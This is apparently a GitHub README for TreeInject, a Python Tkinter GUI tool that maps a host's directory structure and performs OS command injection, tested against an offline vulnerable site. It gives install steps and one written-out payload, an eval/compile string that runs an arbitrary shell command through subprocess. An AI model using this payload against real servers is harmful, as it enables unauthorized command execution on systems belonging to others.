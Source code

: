 # TreeInject

TreeInject is a GUI app python based using module tKinter, that supports 2 functionalities
  - Tree host dir. structure
  - OS Command injection

### Installation

TreeInject requires [Python](https://www.python.org/downloads/) v3+ to run.

Used modules for dev of TreeInject:
- [Tkinter](https://github.com/python/cpython/tree/master/Lib/tkinter/)
- [BeautifulSoup](https://github.com/waylan/beautifulsoup)

*Cloning repository*
```sh
$ git clone https://github.com/durajetz/TreeInject
$ cd TreeInject
$ python3 main.py
```

#  Functionality
<p align="center"><b><em>For the purpose of testing the program an Vulnerable website offline was used.</em></b></br></p>
<p align="center">
Choosing the function we want to implement, pops up new window
<img src="https://media4.giphy.com/media/GijNtQfpydqijSROH7/giphy.gif" alt=""  width="320px"></p>

<p align="center">
The structure of folders on the host where the application is located, which will be open after clicking on the first function
<img src="https://media0.giphy.com/media/jw6Zy69bwWX3a1obDl/giphy.gif" alt="" width="320px"></p>


<p align="center">
Injection only giving the payload with the specific expression:
<img src="https://media4.giphy.com/media/KPRU4rIJbDxUMmjow4/giphy.gif" alt=""  width="350px"></p>


```
eval(compile("""for x in range(1):\n import subprocess\n subprocess.check_output(r'COMMAND',shell=True)""",'','single'))
```
<p align="center">
Injection with custom payload expression:
<img src="https://media4.giphy.com/media/JkzlYa6WGpphEsPr5J/giphy.gif" alt="" width="350px"></p>



License
----

MIT
